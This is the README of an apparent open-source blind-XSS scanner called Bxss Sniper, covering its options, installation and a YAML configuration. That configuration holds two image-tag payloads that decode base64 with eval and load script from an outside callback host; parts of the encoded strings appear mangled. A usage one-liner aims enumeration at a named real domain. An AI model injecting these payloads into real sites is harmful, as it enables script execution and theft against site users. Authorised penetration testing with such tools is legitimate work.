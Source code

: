 # Bxss Sniper

Bxss Sniper is a web application penetration testing tool designed for Blind Cross-Site Scripting (BXSS) detection. This ethical hacking tool empowers security professionals and developers to identify and analyze potential BXSS vulnerabilities in web applications.

### Features

- **Blind XSS Detection:** Bxss Sniper specializes in detecting and testing for Blind Cross-Site Scripting vulnerabilities in web applications.

- **Flexible Testing Options:** Test a single URL or multiple URLs using a file containing a list of targets.

- **Silent Mode:** Enable silent mode to print only the output without displaying the banner and version information.

- **Output Customization:** Specify an output file to save the results for further analysis.

- **Proxy Support:** Switching proxies allows you to send requests through your configured proxy, such as Burp Suite.

- **Timeout Configuration:** Customize the timeout duration for requests, useful for both regular testing and integration with tools like Burp Suite.

- **Concurrency Control:** Adjust the concurrency level for multiple processes, enhancing the efficiency of the testing process.

- **Support Oneliners:** Bxss Sniper supports oneliners to improve your reconnaissance

### Oneliners:

Bxx Sniper supports integration with subdominator which can be easy to detect for blid cross site scripting.

```bash
subdominator -d glia.com -o results.txt --config | bxsniper --silent --concurrency 20 -o bxss.txt
```
![Screenshot from 2023-12-02 17-14-34](https://github.com/sanjai-AK47/Bxss_Sniper/assets/119435129/cbb8797f-7cb9-4e2d-aa6b-ba7d1db18748)



### Command Line Usage
```bash
usage: bxsniper [-h] [-uf URLS_FILE] [-u URL] [-s] [-o OUTPUT] [-px PROXY] [-to TIME_OUT] [-c CONCURRENCY]

[DESCRIPTION]: Bxss Sniper: A web application penetration testing tool for Blind XSS detection

options:
  -h, --help            show this help message and exit
  -uf URLS_FILE, --urls-file URLS_FILE
                        [INFO]: A file that contains a list of URLs to test for blind cross-site scripting
  -u URL, --url URL     [INFO]: A single URL to test for blind cross-site scripting
  -s, --silent          [INFO]: Silently print only output and not print the banner and version
  -o OUTPUT, --output OUTPUT
                        [INFO]: Filename to write the output
  -px PROXY, --proxy PROXY
                        [INFO]: Switching proxy will send requests to your configured proxy (e.g., Burp Suite)
  -to TIME_OUT, --time-out TIME_OUT
                        [INFO]: Switching timeout will send requests till your timeout and also for Burp Suite
  -c CONCURRENCY, --concurrency CONCURRENCY
                        [INFO]: Concurrency level for multiple processes
```


### Installation:

#### Method 1:

```bash
pip install bxsniper

bxsniper --help
```
[INFO]: After Installing the Bxss Sniper tool through pip copy the configuration yaml file from the github if you don't have in your machine.

#### Method 2:

```bash
git clone https://github.com/sanjai-AK47/Bxss_Sniper.git

cd Bxss_Sniper

pip install .

bxsniper --help
```

### Configuration:

To detect and do automation with Bxss Sniper users need to configure your `bxss-config.yaml` which you can store your Bxss payloads and Detects for Blind Cross Site Scripting
follow the instruction and syntax to config you `bxss-config.yaml`

```yaml
BlindXSS-Payloads:  #Max Payload 5-7

  - '"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3Jgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vamVycnkuYnhzm9keS5hcHBlbmRDaGlsZChhKTs&#61;&#61 onerror=eval(atob(this.id))>'
  - "'><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS57ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61;&#61 onerror=eval(atob(this.id))>"
```

[Note]: If your payload have different quotes users are suggessted to give payloads without any yaml syntax errors
        to check your yaml syntax you can check [here](https://yamlchecker.com/) by pasting your payload in that it will notify the errors for you

### Contributors:

- **[D.Sanjai Kumar](https://www.linkedin.com/in/d-sanjai-kumar-109a7227b/):**  Author and Developer of Bxss Sniper
- **[Jerry](https://www.linkedin.com/in/md-hasan-03596a1b5/):**  Source Provider of Bxss Sniper
- **[AslamX3R](https://www.linkedin.com/in/aslamx3r/):**  Source Provider of Bxss Sniper

### Information:

Bxss Sniper is made for web application pentesters and Ethical hackers for Ethical purpose only . The Developer and the Source providers are not responsible for 
any unethical actions.

### Support:

Bxss Sniper is an open-source project that thrives on community collaboration. Contribute by:

- **Code:** Submit pull requests for bug fixes, features, or documentation enhancements.

- **Issues:** Report bugs, vulnerabilities, or suggest improvements.

- **Spread the Word:** Share Bxss Sniper with your network.

### How to Support:

- **Star the Repo:** Show your support on GitHub.

- **Share:** Spread the word on social media and in your communities.

- **Financially:** Help cover hosting and maintenance costs with a financial contribution.

Your contributions and support are vital to Bxss Sniper's success. Thank you for being part of our community! 🌟


